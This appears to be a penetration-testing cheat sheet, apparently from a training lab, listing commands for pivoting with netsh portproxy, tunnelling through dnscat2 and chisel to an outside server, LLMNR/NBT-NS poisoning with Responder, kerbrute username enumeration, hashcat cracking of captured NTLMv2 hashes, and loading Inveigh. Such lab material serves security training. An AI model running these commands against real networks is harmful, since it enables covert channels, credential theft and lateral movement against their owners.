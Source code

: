 Windows-based command that uses `netsh.exe` to configure a portproxy rule called `v4tov4` that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.

`netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25`

Windows-based command used to view the configurations of a portproxy rule called v4tov4.

`netsh.exe interface portproxy show v4tov4`

Clones the `dnscat2` project GitHub repository.

`git clone https://github.com/iagox86/dnscat2.git`

Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled.

`sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`

Used to start a chisel server in verbose mode listening on port `1234` using SOCKS version 5.

`./chisel server -v -p 1234 --socks5`

Used to connect to a chisel server at the specified IP address & port using socks.

`./chisel client -v 10.129.202.64:1234 socks`


<span style="color:#33FFE3">ACTIVE DIRECTORY</span>  

# Active Directory (AD)

Used to display the usage instructions and various options available in `Responder` from a Linux-based host.

`responder -h`

Used to start responding to & analyzing `LLMNR`, `NBT-NS` and `MDNS` queries on the interface specified proceeding the `-I` option and operating in `Passive Analysis` mode which is activated using `-A`. Performed from a Linux-based host

`sudo responder -I ens224 -A`

Uses `git` to clone the kerbrute tool from a Linux-based host.

`sudo git clone https://github.com/ropnop/kerbrute.git`

Runs the Kerbrute tool to discover usernames in the domain (`INLANEFREIGHT.LOCAL`) specified proceeding the `-d` option and the associated domain controller specified proceeding `--dc`using a wordlist and outputs (`-o`) the results to a specified file. Performed from a Linux-based host.

`./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results`

Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist.

`hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`

Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`.

`Import-Module .\Inveigh.ps1`
